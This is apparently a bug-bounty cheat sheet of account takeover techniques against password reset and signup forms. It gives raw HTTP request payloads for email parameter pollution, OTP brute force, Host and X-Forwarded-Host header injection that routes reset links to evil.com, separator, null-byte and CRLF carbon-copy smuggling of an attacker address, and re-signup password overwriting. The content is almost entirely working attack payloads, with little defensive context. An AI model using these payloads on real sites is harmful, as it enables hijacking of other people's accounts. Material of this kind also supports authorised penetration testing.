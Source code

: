 ## Account Takeover

1. Parameter pollution in reset password
```
POST /reset
[...]
email=victim@mail.com&email=hacker@mail.com
```

2. Bruteforce the OTP code
```
POST /reset
[...]
email=victim@mail.com&code=$123456$
```

3. Host header Injection
```
POST /reset
Host: evil.com
[...]
email=victim@mail.com
```
```
POST /reset
Host: target.com
X-Forwarded-Host: evil.com
[...]
email=victim@mail.com
```
And the victim will receive the reset link with evil.com

4. Using separator in value of the parameter
```
POST /reset
[...]
email=victim@mail.com,hacker@mail.com
```
```
POST /reset
[...]
email=victim@mail.com%20hacker@mail.com
```
```
POST /reset
[...]
email=victim@mail.com|hacker@mail.com
```
```
POST /reset
[...]
email=victim@mail.com%00hacker@mail.com
```

5. No domain in value of the paramter
```
POST /reset
[...]
email=victim
```

6. No TLD in value of the parameter
```
POST /reset
[...]
email=victim@mail
```

7. Using carbon copy
```
POST /reset
[...]
email=victim@mail.com%0a%0dcc:hacker@mail.com
```

8. Try re-sign up using same email
```
POST /newaccount
[...]
email=victim@mail.com&password=1234
```
After sign up using victim email, try signup again but using different password
```
POST /newaccount
[...]
email=victim@mail.com&password=hacked
```

9. If there is JSON data in body requests, add comma
```
POST /newaccount
[...]
{“email”:“victim@mail.com”,”hacker@mail.com”,“token”:”xxxxxxxxxx”}
```
